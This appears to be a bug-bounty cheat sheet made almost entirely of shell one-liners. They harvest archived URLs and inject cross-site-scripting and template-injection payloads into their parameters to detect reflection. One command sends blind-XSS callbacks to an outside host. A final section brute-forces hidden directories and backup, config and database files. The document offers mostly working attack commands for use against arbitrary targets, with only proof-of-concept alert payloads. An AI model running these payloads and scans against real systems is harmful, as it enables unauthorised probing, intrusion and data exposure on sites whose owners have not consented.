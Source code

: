 `echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not'`

`python3 $HOME/Tools/XSStrike-Reborn/xsstrike.py -u "https://xxxxx.com/xxxxx?q=" -d 2 -f /root/XSS-el`

`waybackurls http://testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'`

`waybackurls http://testphp.vulnweb.com | urldedupe -qs | bhedak 'adriel' | airixss -payload "adriel" | egrep -v 'Not'`

`docker run -it -v $PWD:/app x8 -u https://xxxxx.com -w /app/large.txt`

`cat domains.txt | waybackurls | grep -Ev "\.(jpeg|jpg|png|ico)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"`

`gau target.com grep '='| qsreplace hack\" -a | while read url;do target-$(curl -s -l $url | egrep -o '(hack" | hack\\")'); echo -e "Target : \e[1;33m $url\e[om" "$target" "\n -"; done I sed 's/hack"/[xss Possible] Reflection Found/g'`

`cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/?name={{this.constructor.constructor('alert(\"foo\")')()}}" -mr "name={{this.constructor.constructor('alert("`

`cat targets.txt | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe`

`waybackurls target.com | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done`

`cat urls.txt | grep "=" | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours.xss.ht`

`cat targets.txt | ffuf -w - -u "FUZZ/sign-in?next=javascript:alert(1);" -mr "javascript:alert(1)"`

`cat subs.txt | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'`

---

## 
<br/><br/>
## Hidden Dirs:

`dirsearch -l urls.txt -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json --deep-recursive --force-recursive --exclude-sizes=0B --random-agent --full-url -o output.txt`

`ffuf -c -w urls.txt:FUZZ1 -w wordlist.txt:FUZZ2 -u FUZZ1/FUZZ2 -mc 200 -ac -recursion -v -of json -o output`

## 
<br/><br/>
## ffuf json to txt output

`cat output.json | jq | grep -o '"url": ".*"' | grep -o 'https://[^"]*'`
<br/><br/>
